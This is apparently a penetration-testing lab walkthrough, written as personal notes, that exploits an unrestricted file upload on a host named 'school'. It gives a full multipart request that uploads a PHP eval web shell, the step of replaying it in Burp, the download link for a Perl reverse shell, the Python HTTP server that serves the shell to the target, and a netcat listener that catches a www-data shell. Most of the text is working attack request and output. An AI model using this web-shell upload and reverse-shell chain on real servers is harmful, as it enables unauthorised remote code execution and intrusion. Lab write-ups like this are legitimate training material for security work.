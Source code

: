 ```txt

txt
-----------------------------183813756938980137172117669544
Content-Disposition: form-data; name="status"

1
-----------------------------183813756938980137172117669544
Content-Disposition: form-data; name="description"

123123
-----------------------------183813756938980137172117669544
Content-Disposition: form-data; name="_wysihtml5_mode"

1
-----------------------------183813756938980137172117669544
Content-Disposition: form-data; name="file_name"; filename="cmd.php"
Content-Type: application/octet-stream

<?php eval($_GET["cmd"]); ?>
-----------------------------183813756938980137172117669544--
```

Paste the request into burp

![[Pasted image 20240210203910.png]]

![[Pasted image 20240210203929.png]]

Check if it worked
![[Pasted image 20240210204022.png]]

Success! Now let's upload a reverse shell.

I used this one - http://pentestmonkey.net/tools/perl-reverse-shell/perl-reverse-shell-1.0.tar.gz

![[Pasted image 20240210204357.png]]
`└─$ python -m http.server 80 --directory /home/user/Downloads/`
`Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...`
`192.168.151.13 - - [10/Feb/2024 20:42:59] "GET /perl_shell.pl HTTP/1.1" 200 -`

![[Pasted image 20240210204452.png]]

Catch and upgrade
`└─$ nc -nlvp 1234`
`Ncat: Version 7.94SVN ( https://nmap.org/ncat )`
`Ncat: Listening on [::]:1234`
`Ncat: Listening on 0.0.0.0:1234`
`Ncat: Connection from 192.168.151.13:36758.`
 `01:44:30 up  4:49,  2 users,  load average: 0.00, 0.08, 0.98`
`USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT`
`msander  pts/2    192.168.45.235   22:47    2:49m  0.06s  0.06s -bash`
`emiller  pts/3    192.168.45.235   23:41    2:01m  0.03s  0.01s sshd: emiller [priv]`
`Linux school 5.4.0-146-generic #163-Ubuntu SMP Fri Mar 17 18:26:02 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux`
`uid=33(www-data) gid=33(www-data) groups=33(www-data)`
`/`
`/usr/sbin/apache: 0: can't access tty; job control turned off`
`$` 
